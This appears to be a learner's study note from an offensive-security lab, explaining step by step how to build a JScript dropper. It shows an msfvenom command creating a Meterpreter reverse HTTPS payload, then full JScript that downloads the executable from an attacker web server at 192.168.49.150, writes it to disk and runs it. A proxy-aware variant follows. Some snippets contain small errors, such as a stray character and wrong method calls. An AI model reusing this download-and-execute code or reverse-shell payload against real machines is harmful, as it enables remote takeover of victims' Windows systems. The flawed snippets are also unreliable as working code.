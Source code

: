 ## JScript dropper
We'll expand our usage of Jscript to create a dropper that downloads a Meterpreter executable from our Kali Linux web server and executes it.

We will first create a simple 64-bit meterpreter reverse https executable and save it to kali web root with the following command:
```sh
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 -f exe -o myshell.exe
```

We will now start with a simple HTTP GET request from Jscript.
We can use MSXML2.XMLHTTP object based on Microsoft's XML Core Services and it's associated XML parser.

We use CreateObject method of the Windows Script to instantiate the MSXML2.XMLHTTP object, and use open and send methods to perform an HTTP GET request.

The _Open_ method will be taking 3 arguments, the request method, the url and a boolean that indicates if the request should synchronous.

The code will be as follows
```JavaScript
var url = "http://192.168.49.150/myshell.exe"
var Object = Wscript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();
```

We will now proceed with 2 steps:
1. Check if the HTTP GET request was successful.
				- We use the status property of the MSXML2.XMLHTTP object
				- We compare it to the status code of the request
2. We instantiate a stream object and copy the response into it.
				- We use the _stream_ object from the ADODB.strean through the _CreateObject_ method.
				- We invoke _Open_ on the stream object and begin editing the properties of the stream
				- We first set the type property to '1' to indicate we're using binary content.
				- We then call the _Write_ method to write the contents of the response to the stream variable with the ResponseBody method of MSXML2.XMLHTTP
				- Finally, we reset the _Position_ to "0" to instruct the Stream to point to the beggining of it's content.

```JavaScript
if (Object.Status == 200)
{
var stream = Wscript.Object('ADODB.stream');

stream.Open();
stream.Type(1);
stream.Write(Object.ResponseBody);
stream.Position = 0;
```

We finally create a file using the SaveToFile method of the ADODB.stream object.
The method takes 2 arguments:
1. The filename
		- we set it to MyShell.exe
2. Save options
		- We set this to the numeric value of "2" to indicate a file overwrite.

We also close the stream object:
```JavaScript
stream.SaveToFile("myshell.exe", 2);
stream.Close();
```

To put it all together we use WSH shell to run our executable:
```JavaScript
var r = new ActiveXObject("Wscript.Shell").Run("myshell.exe");
```


Our Final code looks like so:
```JavaScript
var url = "http://192.168.49.150/myshell.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');

Object.Open('GET', url, false);
Object.Send();

if (Object.Status == 200)
{s
    var Stream = WScript.CreateObject('ADODB.Stream');

    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.Position = 0;

    Stream.SaveToFile("myshell.exe", 2);
    Stream.Close();
}

var r = new ActiveXObject("WScript.Shell").Run("myshell.exe");
```

We get a shell back:
![jscript-drop-shell](../../Screenshots/jscript-drop-shell.png)

## Exercise
We need to make the communication proxy-aware, we can do this with the [_setProxy_](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms760236%28v%3dvs.85%29) method of the oSrvXMLHTTPRequest object.

We start by instantiating another object of MSXML 6.0 as 3.0 does not support proxy, we then use the setProxy method which takes 3 arguments:
1. [proxySetting](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms760236%28v%3dvs.85%29#remarks)
2. The proxy server and the port we'll be using
3. Any host that can go through the proxy

Our edited code looks like so:
```JavaScript
var url = "http://192.168.49.150/myshell.exe"
var Object = WScript.CreateObject('MSXML2.XMLHTTP');
var Proxy = WScript.CreateObject('MSXML2.ServerXMLHTTP.6.0');

Proxy.setProxy(2, "http://192.168.150.12:3128/");
Object.Open('GET', url, false);
Object.Send();

............
- ```


